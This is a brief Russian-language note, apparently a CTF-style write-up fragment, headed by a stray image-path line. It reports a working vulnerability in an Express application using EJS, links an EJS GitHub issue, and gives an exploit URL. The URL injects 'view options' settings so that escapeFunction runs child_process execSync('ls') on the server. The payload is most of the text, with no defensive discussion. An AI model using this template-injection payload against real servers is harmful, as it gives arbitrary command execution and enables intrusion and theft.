 # Мы имеем приложение на express с ejs, и там оказалась рабочая ekf vulnerability
```
https://github.com/mde/ejs/issues/735
```
## Вот сплойт
```
/?blob=John&settings[view%20options][client]=true&settings[view%20options][escapeFunction]=1;return%20global.process.mainModule.constructor._load('child_process').execSync('ls');
```